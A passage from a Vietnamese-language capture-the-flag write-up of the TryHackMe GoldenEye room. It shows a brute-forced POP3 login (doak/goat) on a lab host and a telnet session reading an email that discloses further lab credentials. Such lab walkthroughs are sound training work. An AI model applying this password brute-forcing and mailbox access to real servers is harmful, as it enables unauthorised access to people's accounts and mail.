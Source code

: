 ![doak](/assets/img/2022-04-19-THM-GoldenEye/5.webp)

Ở đây tôi còn có thêm 1 user nữa tên là *Doak*. Thử bruteforce user này luôn

`[55007][pop3] host: 10.10.52.162   login: doak   password: goat`

```python
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.52.162 55007
Trying 10.10.52.162...
Connected to 10.10.52.162.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```